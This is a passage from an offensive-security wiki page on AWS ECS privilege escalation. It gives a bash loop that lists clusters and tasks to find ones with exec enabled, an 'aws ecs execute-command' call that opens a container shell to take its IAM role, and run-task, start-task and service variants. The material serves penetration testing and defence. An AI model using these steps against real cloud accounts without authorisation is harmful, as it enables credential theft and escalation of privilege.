 ### `ecs:ExecuteCommand`, `ecs:DescribeTasks,`**`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

An attacker with the **`ecs:ExecuteCommand`, `ecs:DescribeTasks`** can **execute commands** inside a running container and exfiltrate the IAM role attached to it (you need the describe permissions because it's necessary to run `aws ecs execute-command`).\
However, in order to do that, the container instance need to be running the **ExecuteCommand agent** (which by default isn't).

Therefore, the attacker cloud try to:

- **Try to run a command** in every running container

```bash
# List enableExecuteCommand on each task
for cluster in $(aws ecs list-clusters | jq .clusterArns | grep '"' | cut -d '"' -f2); do
   echo "Cluster $cluster"
   for task in $(aws ecs list-tasks --cluster "$cluster" | jq .taskArns | grep '"' | cut -d '"' -f2); do
      echo "  Task $task"
      # If true, it's your lucky day
      aws ecs describe-tasks --cluster "$cluster" --tasks "$task" | grep enableExecuteCommand
   done
done

# Execute a shell in a container
aws ecs execute-command --interactive \
   --command "sh" \
   --cluster "$CLUSTER_ARN" \
   --task "$TASK_ARN"
```

- If he has **`ecs:RunTask`**, run a task with `aws ecs run-task --enable-execute-command [...]`
- If he has **`ecs:StartTask`**, run a task with `aws ecs start-task --enable-execute-command [...]`
- If he has **`ecs:CreateService`**, create a service with `aws ecs create-service --enable-execute-command [...]`
- If he has **`ecs:UpdateService`**, update a service with `aws ecs update-service --enable-execute-command [...]`

You can find **examples of those options** in **previous ECS privesc sections**.

**Potential Impact:** Privesc to a different role attached to containers.

### `ssm:StartSession`

Check in the **ssm privesc page** how you can abuse this permission to **privesc to ECS**:

[[../aws-ssm-privesc/README.md]]

### `iam:PassRole`, `ec2:RunInstances`

Check in the **ec2 privesc page** how you can abuse these permissions to **privesc to ECS**:

[[../aws-ec2-privesc/README.md]]
